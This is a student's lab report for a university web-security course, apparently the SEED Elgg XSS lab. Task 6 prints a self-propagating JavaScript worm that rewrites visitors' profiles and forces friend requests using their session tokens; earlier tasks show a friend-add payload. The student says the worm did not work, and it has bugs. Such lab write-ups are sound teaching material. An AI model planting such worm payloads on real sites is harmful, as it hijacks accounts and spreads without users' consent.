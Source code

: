
<div align="center">Lab 02 | CSCI 476
  
Zoe Norden | s68k193() 
</div>


## Task 1

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.1.png)

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.png)

I wasn't sure if I need tod o the more advanced thing with the separate file or anything. Given that it didn't say so in the instructions, I will assume I did not need to do so. So far this seems very similar to the SQL injection thing that we did on the last lab.

Is it possible to do a more advanced version of this using the larger script file thing and then insert a video or something? I wouldn't be able to get it to work with the existing field because I'd run into a character limit on my space, but I should be able to run something if I tossed it into a file to run. I am curious if I could get the actual video to pop up or if it'd just be the link to the video, which wouldn't be as funny. 

## Task 2

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.1.png)

I still don't quite understand the dangers behind cookies. 

## Task 3

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.1.png)

I can kind of see why knowing this info would be dangerous though. 


## Task 4

### Task 4.1

Our first image is pre-friend Boby and the second image is after we've added Boby as a friend. 
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.2.png)

Now here's a code block of the code that I inserted. There is also a screenshot of the full code snippet below that textblock of code. From what I understand, this code looks at the url and then goes to add friend withthe id number of 57. 

`var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=57" + token + ts;`

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.1.png)


### Task 4.2

For task 4.2 I was unable to successfully re-add Boby as a friend. To try and accomplish this, I removed the code from the "edit HTML" section and just directly pasted it in Samy's bio. I also removed Boby as a friend before I used this attack to verify things. I was unable to readd Boby as a friend if I just pasted it in the normal About me field. As you can see from the screenshots, I am still friendless. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.1.png)

## Task 5


### Task 5.1

Once again, we will be targetting poor Boby. As you can see from the screenshot below, Boby has a very poor MySpace-esque profile page. Let's see if we can't spice things up. You know, once he visits Samy's profile.

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.1.png)

Okay, so I had to create the variable desc which is our description variable. This is because I honestly couldn't tell if the `var name, guid, ts, token` was actually doing anything so I created the `var desc` which would directly edit the profile of poor Boby. Full code snippet is below. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.2.png)


### Task 5.2

You need this line of code because if you didn't have it, you would attack yourself. So this is basically saying that if the user id is not Samy's, then we continue with the attack, but if it is, we do not do anything. This was probably the hardest part for me to figure out for some reason because I couldn't figure out what Samy's GUID was for the life of me. 

## Task 6

For all intents and purposes - this should work. I probably missed a quotation somewhere and that's why it's not working. Or maybe I just spelled something incorrectly, but I've been staring at code that, for all intents and purposes, should absolutely work. And yet, it's frusturating that it doesn't. 

What this should do is that if someone vists Samy's profile, then their stuff gets edited. So if Boby visists Samy's profile then he gets his descriptions edited and whatnot. And then if Alice visits Boby's profile, then her information also gets edited and so on and so forth. There's this giant chain of people that get infected by poor Samy over there. 

That's what, again, should happen. Unfortunately for me that does not seem to be the case. Regretfully. 

```js

<script type="text/javascript" id="worm">
window.onload = function(){

var headerTag = "<script id=\ "worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML;
var tailTag="</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

var accesslevel="&accesslevel[description]=2";
var description="&description="+wormCode;
var briefdescription="&briefdescription=Zoe was here again";

var content=token +ts +userName + description + briefdescription+accesslevel+guid;
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax.send(content);

var Ajax2=null;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;
Ajax=new XMLHttpRequest();
Ajax2.open("GET",sendurl,true);
Ajax2.setRequestHeader("Host","www.xsslabelgg.com");
Ajax2.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax2.send();
}
</script>

```

```  // TODO: Get the name, guid, timestamp, and token.
    var username=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // TODO: Set the content of the description field and access level.
    var desc="&description=hello bo" + wormCode;
    desc+= "&accesslevel[description]=2";
    var samyGuid=59;
    var name="&name="+username
    // TODO: Set the URL, and create and send Ajax request to modify profile
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";
    var content=token+ts+name+desc+guid
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }

    // TODO: Set the URL, and create and send Ajax request to add Samy as a friend
    sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59&__elgg_ts=1616432558,1616432558&__elgg_token=tHLWjCh2YdMAfYwk3TwoGQ,tHLWjCh2YdMAfYwk3TwoGQ"+ts+token;

    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();```
